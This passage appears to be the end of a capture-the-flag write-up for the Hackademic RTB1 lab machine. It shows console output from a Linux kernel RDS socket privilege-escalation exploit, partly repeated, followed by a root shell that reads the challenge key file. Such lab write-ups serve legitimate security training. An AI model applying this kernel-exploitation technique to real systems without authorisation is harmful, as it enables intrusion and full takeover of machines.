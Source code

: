 ```
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
whoami
root
cd /root/                                                                       
ls
Desktop
anaconda-ks.cfg
key.txt
key.txt~
cat key.txt
Yeah!!
You must be proud because you 've got the password to complete the First *Realistic* Hackademic Challenge (Hackademic.RTB1) :)

$_d&jgQ>>ak\#b"(Hx"o<la_%

Regards,
mr.pr0n || p0wnbox.Team || 2011
http://p0wnbox.com
```

And that's game!  Pretty nice box, though I must admit priv esc vulnerabilities in out of date kernels are rather boring.  Next up, Hackademic RTB2.
